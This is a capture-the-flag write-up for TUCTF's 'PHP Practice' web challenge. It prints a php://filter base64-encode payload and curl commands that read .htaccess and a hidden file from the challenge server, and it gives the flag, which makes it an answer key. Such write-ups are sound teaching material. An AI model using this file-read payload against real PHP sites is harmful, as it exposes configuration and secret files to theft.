 # PHP Practice [187 Solves]

## Description

> Have you ever seen an image on a website, and wished you could use the link to view it from a different domain? Me neither, but I needed web dev practice so I implemented it anyways! Give it a try -- Feed my site a link and it'll load your file!
>
> <https://php-practice.tuctf.com>

No attachment

## Flag

TUCTF{th1s_i5_my_secr3t_l0c@l_f1le!}

## Solution

Access <https://php-practice.tuctf.com> and looking at index.html:

```html
<!-- index.html -->

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Link Content Viewer</title>
    <link rel="stylesheet" type="text/css" href="styles.css">
</head>
<body>
    <h2>Enter a Link</h2>
    <form action="display.php" method="post">
        <label for="link">Link:</label>
        <input type="text" id="link" name="link" required>
        <button type="submit">Submit</button>
    </form>
</body>
</html>
<!--TODO: Hide Secret Files-->
```

There is secret file.

It has Path Traversal (not LFI) in /display.php path link parameter.

- payload: `php://filter/convert.base64-encode/resource=/var/www/html/path/to/file`

The secret files were not /var/www/html/secret.txt or /var/www/html/flag.txt, but I could get /var/www/html/.htaccess.
In .htaccess, I found the hidden file named as gcfYAvzsbyxV.txt.
Got gcfYAvzsbyxV.txt by Path Traversal, I got the flag.

```console
$ curl https://php-practice.tuctf.com/display.php --data-urlencode link=php://filter/convert.base64-encode/resource=/var/www/html/.htaccess
<!DOCTYPE html>
                      <html lang='en'>
                      <head>
                          <meta charset='UTF-8'>
                          <meta name='viewport' content='width=device-width, initial-scale=1.0'>
                          <title>Link Content Display</title>
                      </head>
                      <body>
                          <h2>Content of the Link</h2>
                          <p>PEZpbGVzICJnY2ZZQXZ6c2J5eFYudHh0Ij4KICAgIG9yZGVyIGRlbnksYWxsb3cKICAgIGRlbnkgZnJvbSBhbGwKICAgIGFsbG93IGZyb20gbG9jYWxob3N0IDEyNy4wLjAuMSAwLjAuMC4wCjwvRmlsZXM+Cg==</p>
                      </body>
                      </html>
                      
$ B64=PEZpbGVzICJnY2ZZQXZ6c2J5eFYudHh0Ij4KICAgIG9yZGVyIGRlbnksYWxsb3cKICAgIGRlbnkgZnJvbSBhbGwKICAgIGFsbG93IGZyb20gbG9jYWxob3N0IDEyNy4wLjAuMSAwLjAuMC4wCjwvRmlsZXM+Cg==

$ echo -n $B64 | base64 -d
<Files "gcfYAvzsbyxV.txt">
    order deny,allow
    deny from all
    allow from localhost 127.0.0.1 0.0.0.0
</Files>

$ curl https://php-practice.tuctf.com/display.php --data-urlencode link=php://filter/convert.base64-encode/resource=gcfYAvzsbyxV.txt
<!DOCTYPE html>
                      <html lang='en'>
                      <head>
                          <meta charset='UTF-8'>
                          <meta name='viewport' content='width=device-width, initial-scale=1.0'>
                          <title>Link Content Display</title>
                      </head>
                      <body>
                          <h2>Content of the Link</h2>
                          <p>VFVDVEZ7dGgxc19pNV9teV9zZWNyM3RfbDBjQGxfZjFsZSF9Cg==</p>
                      </body>
                      </html>
                      
$ echo -n 'VFVDVEZ7dGgxc19pNV9teV9zZWNyM3RfbDBjQGxfZjFsZSF9Cg==' | base64 -d
TUCTF{th1s_i5_my_secr3t_l0c@l_f1le!}
```
